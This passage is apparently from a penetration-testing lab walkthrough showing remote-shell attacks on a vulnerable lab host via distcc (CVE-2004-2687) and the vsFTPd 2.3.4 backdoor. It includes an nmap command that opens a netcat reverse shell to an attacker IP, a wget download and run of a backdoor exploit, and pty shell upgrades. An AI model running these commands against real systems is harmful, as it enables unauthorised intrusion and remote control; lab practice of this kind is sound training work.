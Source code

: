 In the second window we need search the right command in gtobin

```
python3 gtfo.py nc | more
```
![24](https://user-images.githubusercontent.com/50930193/118382346-f9d51280-b5b9-11eb-87ee-e4f42c9db317.jpg)

In the third window we can execute the nmap command 
```
nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 192.168.153.167 4444'" 192.168.153.169
```
We get a reverse shell!!

![23](https://user-images.githubusercontent.com/50930193/118382266-20df1480-b5b9-11eb-80c4-570cc64a0d34.jpg)

Also we can a iteractive shell using this command

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![25](https://user-images.githubusercontent.com/50930193/118382533-36097280-b5bc-11eb-9db2-0aeeb9153287.jpg)

###  EXPLOITING vsFTPd version 2.3.4 

In several repositories such as github, db exploit, pastebin we can find exploits to vsftpd 2.3.4

a) [https://www.exploit-db.com/exploits/49757](https://www.exploit-db.com/exploits/49757)

b) [https://github.com/nomi-sec/PoC-in-GitHub/blob/master/2011/CVE-2011-2523.json](https://github.com/nomi-sec/PoC-in-GitHub/blob/master/2011/CVE-2011-2523.json)_

for a demo we will download this exploit
```
wget https://gist.githubusercontent.com/thaisingle/e2af5a83f06dc91fdf60faa23f43ffec/raw/ba8505125ccd2f9ae30c56903f2e817aa96b1854/vsFtpdBackdoor.py
```
Open the exploit and review how to use the command
```
mousepad vsFtpdBackdoor.py
```
![26](https://user-images.githubusercontent.com/50930193/118383451-5852be80-b5c3-11eb-8977-6efd4854e0b5.jpg)

Give execution rights to exploit and execute the exploit
```
chmod +x vsFtpdBackdoor.py
./vsFtpdBackdoor.py 192.168.153.169 21 
```
We get a shell but is not interactive

![27](https://user-images.githubusercontent.com/50930193/118383614-20e51180-b5c5-11eb-9f6c-996e24769d91.jpg)

To get a iterative shell we have to ways:

1) Directly with python command of gtfobin
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
